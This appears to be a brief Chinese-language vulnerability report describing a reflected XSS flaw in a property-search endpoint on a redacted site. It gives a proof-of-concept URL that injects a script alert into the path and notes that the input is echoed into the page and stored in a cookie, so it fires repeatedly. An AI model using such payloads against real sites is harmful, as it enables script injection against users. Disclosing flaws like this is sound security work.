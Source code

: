 ## 搜索楼盘接口存在XSS问题

POC

```html
http://sz.xxxx.com/loupan/rs%22%3E%3Cscript%3Ealert%281%29%3C/script%3E
```

原因：反射型XSS，输出到HTML页面了，同时要保存到cookie里，造成重复触发。

![](/images/20150916232022.png)

